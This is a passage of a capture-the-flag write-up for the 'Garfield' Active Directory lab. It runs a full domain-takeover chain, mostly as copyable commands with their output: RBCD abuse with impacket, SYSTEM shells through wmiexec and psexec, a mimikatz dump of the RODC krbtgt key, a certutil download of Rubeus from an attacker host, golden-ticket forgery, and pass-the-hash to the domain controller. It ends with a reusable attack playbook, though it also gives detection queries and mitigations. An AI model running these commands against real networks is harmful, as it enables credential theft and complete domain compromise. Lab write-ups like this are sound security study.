impacket-addcomputer -computer-name 'z0n$' -computer-pass 'Password456!' -dc-ip 10.129.23.120 garfield.htb/l.wilson_adm:Password456!
```



**3. Modifying Delegation Rights**
With the controlled machine account established, `impacket-rbcd` was utilized to modify the Active Directory schema. This granted `z0n$` the authority to act on behalf of other identities against the `RODC01$` machine account.

```bash
impacket-rbcd -action write -delegate-from 'z0n$' -delegate-to 'RODC01$' -dc-ip 10.129.23.120 garfield.htb/l.wilson_adm:Password456!
```
*Output snippet:*
```text
[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] z0n$ can now impersonate users on RODC01$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     z0n$   (S-1-5-21-2502726253-3859040611-225969357-10601)
```



**4. Service Ticket Generation**
Leveraging the newly configured RBCD rights, `impacket-getST` was executed to perform the Kerberos protocol extensions: Service for User to Self (S4U2self) and Service for User to Proxy (S4U2proxy). This generated a valid Kerberos Service Ticket (ST) for the `cifs` service on `RODC01`, successfully impersonating the `Administrator` account.

```bash
impacket-getST -spn 'cifs/RODC01.garfield.htb' -impersonate Administrator -dc-ip 10.129.23.120 garfield.htb/'z0n$':'Password456!'
```


### Proof of Concept
The execution of the attack chain resulted in the successful retrieval and caching of a highly privileged Kerberos ticket. 

```text
[*] Getting TGT for user
[*] Impersonating Administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in Administrator@cifs_RODC01.garfield.htb@GARFIELD.HTB.ccache
```




*(Note: The resulting `.ccache` file establishes administrative access over the `RODC01` file system and services, allowing for immediate execution of tools such as `wmiexec` or `smbclient` by exporting the `KRB5CCNAME` environment variable.)*

## System Access on RODC01

### Access Execution
With the Kerberos Service Ticket successfully generated and cached from the RBCD attack, the ticket was utilized to authenticate against the Read-Only Domain Controller (`RODC01`) without requiring a password. The `impacket-wmiexec` module was executed using the `-k` flag to leverage Kerberos authentication.

**Command Executed:**
```bash
impacket-wmiexec -k -no-pass -dc-ip 10.129.23.120 garfield.htb/Administrator@RODC01.garfield.htb
```

### Proof of Concept
The execution resulted in a semi-interactive system shell on `RODC01`. Initial reconnaissance commands were executed to confirm the hostname, IP address, and the operational context of the hijacked account.

```text
C:\users\Administrator\Desktop>whoami
garfield\administrator

C:\users\Administrator\Desktop>hostname
RODC01

C:\users\Administrator\Desktop>ipconfig

Windows IP Configuration

Ethernet adapter Ethernet:

   Connection-specific DNS Suffix  . : 
   Link-local IPv6 Address . . . . . : fe80::7a33:8251:f697:4c2d%5
   IPv4 Address. . . . . . . . . . . : 192.168.100.2
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 192.168.100.1
```

### Post-Exploitation Enumeration
Further enumeration of the `Administrator` account was conducted to verify group memberships. The output confirms that the compromised account context holds memberships in highly privileged groups, including `Domain Admins` and `Enterprise Admins`. 

```text
C:\users\Administrator\Desktop>net group "Domain Admins" /domain
Group name     Domain Admins
Comment        Designated administrators of the domain

Members

-
Administrator   
The command completed successfully.

C:\users\Administrator\Desktop>whoami /groups

GROUP INFORMATION
--

Group Name                                      Type             SID                                           Attributes                                                     
=============================================== ================ ============================================ ===============================================================
Everyone                                        Well-known group S-1-1-0                                      Mandatory group, Enabled by default, Enabled group             
BUILTIN\Administrators                          Alias            S-1-5-32-544                                 Mandatory group, Enabled by default, Enabled group, Group owner
GARFIELD\Domain Admins                          Group            S-1-5-21-2502726253-3859040611-225969357-512 Mandatory group, Enabled by default, Enabled group             
GARFIELD\Enterprise Admins                      Group            S-1-5-21-2502726253-3859040611-225969357-519 Mandatory group, Enabled by default, Enabled group             
GARFIELD\Schema Admins                          Group            S-1-5-21-2502726253-3859040611-225969357-518 Mandatory group, Enabled by default, Enabled group             
```

*(Note: While the shell on `RODC01` operates under the `Administrator` context, a Read-Only Domain Controller does not hold the writable directory partition or all password hashes. The next step requires modifying password replication policies or dumping the `krbtgt` key to forge a Golden Ticket for full domain compromise on the primary Domain Controller.)*

## SYSTEM Escalation & Credential Extraction (RODC01)

### Initial Credential Dumping Attempt
An initial attempt was made to remotely dump the RODC SAM and LSA secrets using `impacket-secretsdump` via the established Kerberos context. While local SAM hashes and some LSA secrets were successfully extracted, the DRSUAPI method for dumping the NTDS.DIT secrets failed due to dependent services running (SCMR SessionError: 0x41b) and subsequent SMB connection drops. 

To bypass this limitation, a direct `SYSTEM` shell on the target was required to run local credential extraction tools.

### Exploitation Steps

**1. Obtaining SYSTEM Shell via PsExec**
The previously generated `.ccache` service ticket for the `cifs` service was re-exported to the environment variables. Utilizing `impacket-psexec` with Kerberos authentication (`-k`), an interactive `NT AUTHORITY\SYSTEM` shell was established over the writable `ADMIN$` share.

```bash
# Clear any existing cached tickets and re-export the RBCD ticket
unset KRB5CCNAME
export KRB5CCNAME=Administrator@cifs_RODC01.garfield.htb@GARFIELD.HTB.ccache

# Execute PsExec utilizing the cached Kerberos ticket
/usr/share/doc/python3-impacket/examples/psexec.py -k -no-pass -dc-ip 10.129.23.120 garfield.htb/Administrator@rodc01.garfield.htb
```

**Proof of Concept:**
```text
[*] Requesting shares on rodc01.garfield.htb.....
[*] Found writable share ADMIN$
[*] Uploading file eiSAWPfg.exe
[*] Opening SVCManager on rodc01.garfield.htb.....
[*] Creating service kCXJ on rodc01.garfield.htb.....
[*] Starting service kCXJ.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.8511]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```




**2. Dumping the RODC KRBTGT Key**
With `SYSTEM` level access secured, `mimikatz.exe` was executed locally on `RODC01` to perform an LSA injection and specifically target the `krbtgt_8245` account. This account represents the `krbtgt` account specific to the Read-Only Domain Controller.

```cmd
C:\> mimikatz.exe "privilege::debug" "lsadump::lsa /inject /name:krbtgt_8245" "exit"
```



### Critical Findings (Extracted Material)
The Mimikatz output successfully yielded the cryptographic material required to forge authentication tickets for the RODC environment. 

* **Target Account:** `krbtgt_8245`
* **Domain:** `GARFIELD.HTB`
* **SID:** `S-1-5-21-2502726253-3859040611-225969357`
* **NTLM Hash:** `445aa4221e751da37a10241d962780e2`
* **AES256_HMAC Key:** `d6c93cbe006372adb8XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX`

*(Note: The extraction of the AES256 key for the RODC's `krbtgt` account is the prerequisite for the final attack phase: forging a Golden Ticket to pivot back to the primary Domain Controller.)*

## Domain Compromise via RODC Golden Ticket

### Initial Exploitation Attempt & Limitations
Following the extraction of the RODC's `krbtgt_8245` AES key, an initial attempt was made to forge a Golden Ticket offline using `impacket-ticketer` and authenticate to the primary Domain Controller (`DC01`). However, this authentication attempt failed with a `KRB_AP_ERR_BAD_INTEGRITY` error, indicating the primary DC rejected the ticket generated solely with the RODC's key material. 

To bypass this, an on-target approach utilizing `Rubeus` and Active Directory replication policy modification was required.

### Exploitation Steps

**1. Tool Transfer**
`Rubeus.exe` was transferred to the compromised `RODC01` host using the `certutil` binary.

```cmd
C:\> certutil -urlcache -split -f http://10.10.14.115:8000/Rubeus.exe C:\Windows\Temp\Rubeus.exe
```

**2. Modifying Password Replication Policies**
To successfully forge a ticket that the environment will accept, the RODC must be permitted to cache the target account's credentials. `PowerView.ps1` was imported into the WinRM session to modify the RODC's `msDS-RevealOnDemandGroup` and `msDS-NeverRevealGroup` attributes, explicitly allowing the `Administrator` account to be delegated.

```powershell
*Evil-WinRM* PS C:\temp> Import-Module .\PowerView.ps1; Set-DomainObject -Identity 'RODC01$' -Set @{'msDS-RevealOnDemandGroup'=@('CN=Allowed RODC Password Replication Group,CN=Users,DC=garfield,DC=htb','CN=Administrator,CN=Users,DC=garfield,DC=htb')}
*Evil-WinRM* PS C:\temp> Import-Module .\PowerView.ps1; Set-DomainObject -Identity 'RODC01$' -Clear 'msDS-NeverRevealGroup'
```

**3. Forging the Golden Ticket (TGT)**
`Rubeus` was executed to generate a Ticket Granting Ticket (TGT) for the `Administrator` account utilizing the previously extracted AES256 key and the specific RODC identifier (`8245`). 

```powershell
*Evil-WinRM* PS C:\temp> .\Rubeus.exe golden /aes256:d6c93cbe006372adb8XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX /domain:garfield.htb /sid:S-1-5-21-2502726253-3859040611-225969357 /user:Administrator /rodcNumber:8245 /flags:forwardable,renewable,enc_pa_rep /outfile:C:\temp\ticket.kirbi /id:500 /nowrap
```



**4. Requesting the Service Ticket (TGS)**
The forged `.kirbi` TGT was then utilized to request a Ticket Granting Service (TGS) ticket for the primary Domain Controller (`DC01`). 

```powershell
*Evil-WinRM* PS C:\temp> .\Rubeus.exe asktgs /enctype:aes256 /service:krbtgt/garfield.htb /keyList /dc:DC01.garfield.htb /ticket:C:\temp\ticket_2026_04_06_00_33_49_Administrator_to_krbtgt@GARFIELD.HTB.kirbi /nowrap
```

*Critical Finding:* The output of the `asktgs` command successfully returned the NTLM Password Hash for the Domain Administrator: `EE238FXXXXXXXXXXXXXXXXXXXXXXXXXX`.



## DC01 Access & Root Flag Capture

With the Domain Administrator's NTLM hash and a valid Base64-encoded `.kirbi` ticket obtained, two distinct paths were executed to verify total domain compromise.

### Method A: Pass-The-Hash (Evil-WinRM)
The extracted NTLM hash was used to establish a direct WinRM session to the primary Domain Controller (`10.129.23.139`) and capture the final flag.

```bash
evil-winrm -i 10.129.23.139 -u Administrator -H EE238FXXXXXXXXXXXXXXXXXXXXXXXXXX
```

**Proof of Concept:**
```text
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
garfield\administrator
*Evil-WinRM* PS C:\Users\Administrator\Desktop> cat root.txt
ea32dXXXXXXXXXXXXXXXXXXXXXXXXXXX
```



### Method B: Pass-The-Ticket (Impacket)
Alternatively, the Base64 output of the service ticket from `Rubeus` was decoded, converted to a `.ccache` file format usable by Linux utilities, and utilized to spawn an administrative shell via WMI.

**1. Ticket Conversion:**
```python
python3 -c "
import base64
data = '<BASE64_KIRBI_STRING>'
open('admin.kirbi','wb').write(base64.b64decode(data))
"
```
```bash
impacket-ticketConverter admin.kirbi admin.ccache
```

**2. Shell Execution:**
```bash
export KRB5CCNAME=admin.ccache
impacket-wmiexec -k -no-pass -dc-ip 10.129.23.139 garfield.htb/Administrator@DC01.garfield.htb
```

**Proof of Concept:**
```text
[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
garfield\administrator
```

# Defensive Operations


# Garfield: Tactical Operations Briefing

## Strategic Overview

* **1.1 Definition:** An integrated attack chain exploiting excessive Active Directory permissions, lateral movement via logon script abuse, credential reset exploitation, network pivoting, and Resource-Based Constrained Delegation (RBCD) to achieve complete domain compromise.
* **1.2 Impact:** Total compromise of the Active Directory domain, including the extraction of Domain Administrator credentials and execution of arbitrary code as `NT AUTHORITY\SYSTEM` on Domain Controllers.
* **1.3 The Scenario:** An adversary starts with standard user credentials (`j.arbuckle`). Through AD enumeration, they discover writable access to the `Liz Wilson` account. Exploiting the `scriptPath` attribute, they force a reverse shell during the target's logon. From this foothold, they reset the password for an associated administrative account (`l.wilson_adm`). Pivoting into an isolated internal subnet via Ligolo-ng, the attacker identifies a Read-Only Domain Controller (RODC01) where the compromised administrative account can modify group memberships. By adding the account to the `RODC Administrators` group, the attacker configures RBCD, generates a service ticket impersonating an Administrator, and gains a `SYSTEM` shell on the RODC. After extracting the RODC's `krbtgt` key, they modify replication policies and forge an RODC Golden Ticket to pivot back to the primary Domain Controller (`DC01`), ultimately capturing the Domain Administrator hash and completing the domain takeover.


## System Architecture & Theory

* **2.1 Protocol Environment:** Microsoft Active Directory, SMB (Server Message Block), LDAP (Lightweight Directory Access Protocol), Kerberos (Authentication), WinRM (Windows Remote Management), WinPEAS/Mimikatz (Post-Exploitation), Ligolo-ng (Pivoting).
* **2.2 Attack Logic Flow:**
> [Standard User Access (`j.arbuckle`)] -> [Excessive AD Object Permissions (`scriptPath`)] -> [Reverse Shell as `l.wilson`] -> [Password Reset (`l.wilson_adm`)] -> [Network Pivot (Ligolo-ng)] -> [RBCD on `RODC01$`] -> [`SYSTEM` on RODC01] -> [Extract `krbtgt_8245`] -> [Modify Password Replication Policies] -> [RODC Golden Ticket] -> [Domain Admin on `DC01`].
* **2.3 Theoretical Analogy:** The adversary leverages a "domino effect" of excessive privileges. They start by altering a user's "morning routine" (logon script) to sneak into the house. Once inside, they find the keys to the "guest house" (RODC) and alter the guest house's security system (RBCD) to grant themselves master access. Finally, they steal the guest house's master key (`krbtgt`) and convince the main house (DC01) to accept it by altering the house rules (Password Replication Policy).


## Attack Vector (Mechanics)

### Core Mechanism

| Attribute                  | Technical Details                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                           |
| :------------------------- | :------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ |
| **Primary Identifiers**    | `scriptPath` attribute, `RODC Administrators` group, `msDS-AllowedToActOnBehalfOfOtherIdentity`, `msDS-RevealOnDemandGroup`, `msDS-NeverRevealGroup`.                                                                                                                                                                                                                                                                                                                                                                                       |
| **Critical Vulnerability** | Excessive **Active Directory object permissions** (`GenericWrite`, `WriteProperty`) enabling privilege escalation, combined with improper group nesting and overly permissive RODC administrative privileges.                                                                                                                                                                                                                                                                                                                               |
| **Offensive Action**       | 1. Modify `scriptPath` to execute a malicious login script.<br><br>2. Reset an administrative account password using ADSI.<br><br>3. Add compromised account to `RODC Administrators`.<br><br>4. Configure **Resource-Based Constrained Delegation (RBCD)** on `RODC01$`.<br><br>5. Use S4U impersonation to obtain service tickets.<br><br>6. Dump the RODC `krbtgt` key.<br><br>7. Modify password replication policies to allow Domain Admin caching.<br><br>8. Forge an **RODC Golden Ticket** to access the primary domain controller. |


### Prerequisites

* **Access Level:** Valid credentials for a standard user account (`j.arbuckle`).
* **Connectivity:** Reachability to port 445 (SMB) and 389 (LDAP) for initial enumeration and payload delivery; reachability to a listener port for the reverse shell; reachability to internal subnets via a pivot for later stages.
* **Target State:** AD environment with misconfigured object permissions, an accessible SYSVOL share for payload hosting, and an RODC vulnerable to RBCD configuration changes by its administrators.


## Threat Hunting & Anomaly Analysis

* **Hunt Hypothesis:** Adversaries are leveraging excessive permissions to modify user attributes (`scriptPath`) for initial access, subsequently abusing group memberships (`RODC Administrators`) and delegation settings (`msDS-AllowedToActOnBehalfOfOtherIdentity`) to escalate privileges and forge Kerberos tickets.
* **Behavioral Outliers:** * Modification of `scriptPath` by a non-administrative user.
    * Logon script execution originating from a non-standard location or exhibiting unusual behavior (e.g., executing encoded PowerShell).
    * Password resets performed by a standard user account on an administrative account (even if authorized, it warrants investigation).
    * Addition of accounts to highly privileged groups (e.g., `RODC Administrators`).
    * Modification of the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute on a Domain Controller object.
    * Unusual TGS requests originating from a newly created machine account.
    * Modification of RODC Password Replication Policies (`msDS-RevealOnDemandGroup`, `msDS-NeverRevealGroup`).
* **Toxic Combinations:** * `GenericWrite` or `WriteProperty` over a user object + Writable SYSVOL/Netlogon share -> Remote Code Execution.
    * Membership in `RODC Administrators` + `SeMachineAccountPrivilege` -> RBCD and SYSTEM access on the RODC.
    * `SYSTEM` access on RODC + Ability to modify Password Replication Policies -> Domain Compromise via RODC Golden Ticket.

[Evidence](https://raw.githubusercontent.com/0x0z0n/Research/refs/heads/main/posts/Garfield/Loot_20260406_1851.zip "Results")


## Detection Engineering

* **Telemetry Gap Analysis:** * **Event ID 4662 (Directory Service Access):** To monitor modifications to AD objects (e.g., `scriptPath`, `msDS-AllowedToActOnBehalfOfOtherIdentity`).
    * **Event ID 4728 (A member was added to a security-enabled global group):** To monitor additions to `RODC Administrators` or similar groups.
    * **Event ID 4742 (A computer account was changed):** To monitor changes to delegation settings on computer objects.
    * **Event ID 4769 (A Kerberos service ticket was requested):** To monitor for S4U2self/S4U2proxy requests and potential forged tickets.
    * **Event ID 4624 (An account was successfully logged on):** To correlate logon events with script execution.
    * **Event ID 4104 (PowerShell Script Block Logging):** To detect the execution of encoded or obfuscated PowerShell commands within logon scripts.
    * **Sysmon Event ID 1 (Process creation):** To monitor suspicious process spawning (e.g., `powershell.exe` spawned from `userinit.exe` or `explorer.exe` with unusual arguments).

* **Detection-as-Code (KQL):**

```kql
// Detect modification of the scriptPath attribute
SecurityEvent
| where EventID == 4662
| where ObjectType == "%{bf967aba-0de6-11d0-a285-00aa003049e2}" // User object
| where Properties contains "scriptPath"
| project TimeGenerated, Account, ObjectName, Properties
```

```kql
// Detect potential RBCD configuration changes on Domain Controllers
SecurityEvent
| where EventID == 4742
| where TargetUserName endswith "$" // Computer accounts
| where TargetUserName contains "DC" or TargetUserName contains "RODC" // Filter for DCs (adjust based on naming convention)
| where Properties contains "msDS-AllowedToActOnBehalfOfOtherIdentity"
| project TimeGenerated, SubjectUserName, TargetUserName, Properties
```

* **Resilience Test:** An adversary might attempt to modify the `scriptPath` attribute using a low-level LDAP tool or a custom script to evade detection based solely on specific command-line arguments (e.g., avoiding `bloodyAD`). They might also use alternative methods for lateral movement if `scriptPath` is heavily monitored. 
    * **Sub-Rule Countermeasure:** Relying on Event ID 4662 for AD object modifications is robust against tool-specific evasion, as it monitors the directory change directly. Additionally, correlating the `scriptPath` modification with subsequent unusual process creation events (Event ID 4688 or Sysmon Event ID 1) during logon provides a stronger behavioral detection.


## Toolkit & Implementation

* **Automation:** `crackmapexec` (enumeration, validation), `bloodhound-python` (AD data collection), `bloodyAD` (AD manipulation), `smbclient` (file transfer), `netcat` (listener), `evil-winrm` (remote access), `ligolo-ng` (pivoting), `impacket` (`addcomputer`, `rbcd`, `getST`, `wmiexec`, `psexec`), `mimikatz` (credential extraction), `Rubeus` (Kerberos manipulation), `PowerView` (AD enumeration/manipulation).
* **OPSEC Analysis:** The attacker utilized encoded PowerShell payloads and direct ADSI interactions for password resets to minimize command-line logging. The use of Ligolo-ng for pivoting obscures internal network traffic originating from the compromised host. The exploitation of RBCD provides a relatively stealthy method for privilege escalation compared to broader attacks. However, the modification of AD attributes (`scriptPath`, `msDS-AllowedToActOnBehalfOfOtherIdentity`, replication policies) and the creation of a new machine account (`z0n$`) leave clear audit trails in Active Directory.
* **Post-Exploitation:** The attacker dumped local SAM hashes and attempted to dump NTDS.DIT secrets using `impacket-secretsdump`. They extracted the `krbtgt` AES key using Mimikatz for ticket forgery. 


## Defensive Mitigation

* **Technical Hardening:**
    * Implement the Principle of Least Privilege (PoLP): Review and strictly limit excessive AD permissions (`GenericWrite`, `WriteProperty`, `ForceChangePassword`, `AddMember`) on user and computer objects.
    * Secure the `SYSVOL` and `Netlogon` shares: Ensure only authorized administrators can modify logon scripts.
    * Restrict modification of the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute on Domain Controllers and sensitive servers.
    * Carefully review and restrict membership in privileged groups, including `RODC Administrators`. Ensure standard administrative accounts do not have excessive privileges on Domain Controllers.
    * Implement robust auditing and monitoring for Active Directory object modifications (Event ID 4662) and group membership changes (Event IDs 4728, 4732, 4756).
    * Enforce strong password policies and consider requiring multi-factor authentication (MFA) for administrative access.
    * Segment the network and implement strict access controls to limit lateral movement and pivoting capabilities.
    * Review and restrict the use of Resource-Based Constrained Delegation (RBCD). If required, tightly control which accounts can configure it and monitor for unauthorized changes.
    * Regularly audit and secure Password Replication Policies on RODCs.
* **Personnel Focus:** Conduct regular security awareness training, emphasizing the risks associated with unauthorized access and the importance of reporting suspicious activity. Implement a robust incident response plan and conduct regular drills to ensure preparedness. Establish clear policies and procedures for granting and revoking access to sensitive systems and data.


## Quick-Action Playbook

|  Step  | Objective                         | Technical Command / Logic                                                                                                                      |
| :----: | :-------------------------------- | :--------------------------------------------------------------------------------------------------------------------------------------------- |
| **01** | **Enumerate AD Objects**          | `bloodhound-python -u '<user>' -p '<password>' -ns <DC_IP> -d <domain> -c All`                                                                 |
| **02** | **Identify Writable Objects**     | `bloodyAD --host <DC_IP> -d <domain> -u '<user>' -p '<password>' get writable`                                                                 |
| **03** | **Modify `scriptPath` Attribute** | `bloodyAD --host <DC_IP> -d <domain> -u '<user>' -p '<password>' set object "CN=<Target User>,..." scriptPath -v <payload.bat>`                |
| **04** | **Reset Password via ADSI**       | `$user = [ADSI]"LDAP://CN=<Target User>,..."; $user.SetPassword("<New_Password>"); $user.CommitChanges()`                                      |
| **05** | **Pivot Network (Tunnel)**        | `sudo ip tuntap add user <user> mode tun ligolo && sudo ip link set ligolo up && ./proxy -selfcert`                                            |
| **06** | **Configure RBCD**                | `impacket-rbcd -action write -delegate-from '<attacker_machine$>' -delegate-to '<target_machine$>' -dc-ip <DC_IP> <domain>/<admin>:<password>` |
| **07** | **Extract RODC krbtgt Key**       | `mimikatz.exe "privilege::debug" "lsadump::lsa /inject /name:krbtgt_<RODC_ID>" "exit"`                                                         |
| **08** | **Forge Golden Ticket**           | `.\Rubeus.exe golden /aes256:<krbtgt_key> /domain:<domain> /sid:<domain_SID> /user:Administrator /rodcNumber:<RODC_ID> ...`                    |
